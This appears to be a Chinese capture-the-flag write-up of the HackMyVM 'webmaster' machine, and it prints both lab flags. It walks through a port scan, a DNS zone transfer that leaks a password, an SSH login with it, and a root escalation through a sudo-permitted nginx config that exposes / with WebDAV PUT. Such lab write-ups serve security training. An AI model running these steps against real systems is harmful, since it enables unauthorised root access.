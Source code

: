 ### 端口扫描

```bash
nmap -sT --min-rate 10000 -p- 192.168.56.116
```

```
PORT   STATE SERVICE
22/tcp open  ssh
53/tcp open  domain
80/tcp open  http
MAC Address: 08:00:27:E1:CB:80 (Oracle VirtualBox virtual NIC)
```

```bash
nmap -sT -sC -sV -O -p22,53,80 192.168.56.116
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 6d:7e:d2:d5:d0:45:36:d7:c9:ed:3e:1d:5c:86:fb:e4 (RSA)
|   256 04:9d:9a:de:af:31:33:1c:7c:24:4a:97:38:76:f5:f7 (ECDSA)
|_  256 b0:8c:ed:ea:13:0f:03:2a:f3:60:8a:c3:ba:68:4a:be (ED25519)
53/tcp open  domain  (unknown banner: not currently available)
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|     bind
|_    currently available
| dns-nsid: 
|_  bind.version: not currently available
80/tcp open  http    nginx 1.14.2
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: nginx/1.14.2
```

### web端渗透

![image-20241015174005737](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20241015174005737.png)

编辑hosts文件，做一个域名解析

```
192.168.56.116 webmaster.hmv
```

### 探测 DNS 服务

```bash
dig axfr @192.168.56.116 webmaster.hmv
```

有一条TXT记录

```
john.webmaster.hmv.     604800  IN      TXT     "Myhiddenpazzword"
```

### SSH登录

```bash
ssh john@192.168.56.116
```

密码是：`Myhiddenpazzword`

### 提权

```bash
john@webmaster:~$ sudo -l
Matching Defaults entries for john on webmaster:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User john may run the following commands on webmaster:
    (ALL : ALL) NOPASSWD: /usr/sbin/nginx
```

`nginx`提权

编写配置文件，将根目录映射出来

```nginx
user root;
worker_processes 4;
pid /tmp/nginx.pid;
events {
        worker_connections 768;
}
http {
        server {
                listen 1339;
                root /;
                autoindex on;
                dav_methods PUT;
        }
}
```

```bash
sudo /usr/sbin/nginx -c /home/john/1.conf
```

访问HTTP服务，1339端口

![image-20241016222105462](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20241016222105462.png)

成功将整个系统文件映射出来

#### user's flag

```
HMVdnsyo
```

#### root's flag

```
HMVnginxpwnd
```


